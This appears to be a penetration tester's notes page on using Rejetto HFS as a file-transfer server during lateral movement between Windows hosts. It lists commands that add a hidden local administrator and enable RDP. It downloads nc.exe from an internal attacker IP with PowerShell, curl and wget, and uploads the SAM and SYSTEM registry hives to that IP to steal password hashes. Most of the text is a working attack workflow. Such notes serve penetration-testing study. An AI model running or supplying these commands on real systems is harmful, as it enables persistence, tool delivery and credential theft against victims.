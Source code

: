 # Name
Rejetto HFS (HTTP File Server)
* Allows upload/download of files (useful when attacker unable to reach victim directly)

## Usage
```
# Eg: Has access to MS01 but no access to MS02. MS01 able to reach MS02 via internal network.

# Create a local administrator on MS01 & enable RDP
net user bill P@ssw0rd /add
net localgroup administrators bill /add
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f

# On MS01, login via RDP
Use GUI to unzip the file --> double-click the hfs executable to start HTTP server
Go to http://localhost/~/admin/#/ --> hamburger icon --> shared files --> add files in virtual file system --> save

# Download files on MS02
powershell.exe iwr -uri 10.10.105.147/nc.exe -o c:\temp\nc.exe
curl http://10.10.105.147/nc.exe -o c:\temp\nc2.exe
powershell -c wget http://10.10.105.147/nc.exe -outfile c:\temp\nc3.exe

# Configure file uploads
Inside HFS admin console (http://localhost/~/admin/#/fs)
* Select "Shared Files" --> Select "Home" --> "Source on disk" put as a local directory
* Select "Who can upload" as anyone

# Upload files from MS02 to MS01
powershell -c curl.exe -F 'file=@c:\windows.old\windows\system32\SYSTEM' http://10.10.105.147
powershell -c (New-Object System.Net.WebClient).UploadFile('http://10.10.105.147', 'c:\windows.old\windows\system32\SAM')

```

## Source
https://github.com/rejetto/hfs/releases/download/v0.45.0/hfs-windows.zip

